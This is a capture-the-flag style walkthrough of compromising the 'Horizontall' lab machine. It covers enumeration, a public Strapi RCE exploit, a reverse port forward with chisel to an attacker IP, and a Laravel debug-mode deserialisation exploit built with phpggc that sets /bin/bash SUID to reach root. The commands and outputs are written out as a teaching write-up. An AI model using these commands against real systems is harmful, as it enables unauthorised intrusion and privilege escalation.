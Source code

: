# Horizontall

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.84.249
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 00:38 EDT
Nmap scan report for 10.129.84.249
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Add `horizontall.htb` to our `/etc/hosts` file to view the website.

### Horizontall Subdomain

This is a typical corporate website advertising a product:

<figure><img src="../../../.gitbook/assets/image (484).png" alt=""><figcaption></figcaption></figure>

Viewing the page source, we can see a small interesting bit here:

{% code overflow="wrap" %}
```markup
<body><noscript><strong>We're sorry but horizontall doesn't work properly without JavaScript enabled. Please enable it to continue.</strong></noscript><div id="app"></div><script src="/js/chunk-vendors.0e02b89e.js"></script><script src="/js/app.c68eb462.js"></script></body>
```
{% endcode %}

I don't usually come across this, and it appears to be intentionally left there by the creator because the message is customised. We can try to view the JS code that's within this, and perhaps we would find something new. I searched for the box name, and found a new subdomain within the `app.js` file:

<figure><img src="../../../.gitbook/assets/image (51) (6).png" alt=""><figcaption></figcaption></figure>

Interesting! We can add that to our `hosts` file and view it.&#x20;

### API Reviews

This is what we see when we visit that page:

<figure><img src="../../../.gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

When we head to the `/reviews` directory, we would see some JSON

<figure><img src="../../../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

I ran `gobuster` to scan the directories present on this website and check if we can find anything new.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://api-prod.horizontall.htb -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/04/30 00:47:53 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/reviews              (Status: 200) [Size: 507]
```

Viewing `/admin` would bringus to a `strapi` login page:

<figure><img src="../../../.gitbook/assets/image (63) (4).png" alt=""><figcaption></figcaption></figure>

Googling for exploits pertaining to `strapi` shows this:

{% embed url="https://www.exploit-db.com/exploits/50239" %}

Running the script would spawn a "terminal" for us and also reset the administrator password.

<figure><img src="../../../.gitbook/assets/image (350).png" alt=""><figcaption></figcaption></figure>

Great! We have RCE. Now, we can easily get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

Grab the user flag within the `developer` user home directory.

## Privilege Escalation

### Port Forwarding

Within the user's home directory, there are some file regarding a project:

```
strapi@horizontall:/home/developer$ ls
composer-setup.php  myproject  user.txt
```

Since there is a PHP file, there might be another application running on another port. We can run `netstat` to check this:

```
strapi@horizontall:/home/developer$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1786/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           - 
```

We can spawn another shell to port forward this using `chisel`. Since the `strapi` has a home directory, adding an `authorized_keys` file is pretty easy. Then, I downloaded `chisel` via `wget` and ran these commands:

```bash
# on kali
chisel server -p 5555 --reverse
# on victim
chisel client 10.10.14.2:5555 R:8000:127.0.0.1:8000
```

Then we can visit the page!&#x20;

### Laravel Debug RCE

The website just has the default Laravel page:

<figure><img src="../../../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

We can run a directory scan to see what's available.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://localhost:8000 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8000
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/04/30 01:27:23 Starting gobuster in directory enumeration mode
===============================================================
/profiles             (Status: 500) [Size: 616204]
```

Interesting. Viewing the `/profiles` leads to a 500 error and brings us to a debug page.

<figure><img src="../../../.gitbook/assets/image (66) (4).png" alt=""><figcaption></figcaption></figure>

This application enabled the Debug mode and also had Laravel v8 running. It appears to be vulnerable to an older exploit that allows RCE through Laravel Debug mode.

{% embed url="https://github.com/ambionics/laravel-exploits" %}

This exploit uses `phpggc` to create a malicious serialised PHP file that would allow us to execute commands. So, we need to download `phpggc` to the machine and run the following command:

```bash
php -d phar.readonly=0 ./phpggc --phar phar -f -o id.phar monolog/rce1 system id
```

The first part would allow us to create a `phar` file that executes `id` on the system. When we run the exploit, this is what we would get:

```
$ python3 laravel.py http://127.0.0.1:8000 id.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Works! Now we just need to specify a longer command. In this case, I decided to make `/bin/bash` an SUID binary. We just need to run these commands again

```bash
php -d phar.readonly=0 ./phpggc --phar phar -f -o suid.phar --fast-destruct monolog/rce1 system 'chmod u+s /bin/bash'
python3 laravel.py http://127.0.0.1:8000 suid.phar
```

Then we can easily get a root shell on the machine.

```
strapi@horizontall:~$ /bin/bash -p
bash-4.4# id
uid=1001(strapi) gid=1001(strapi) euid=0(root) groups=1001(strapi)
```

Rooted!
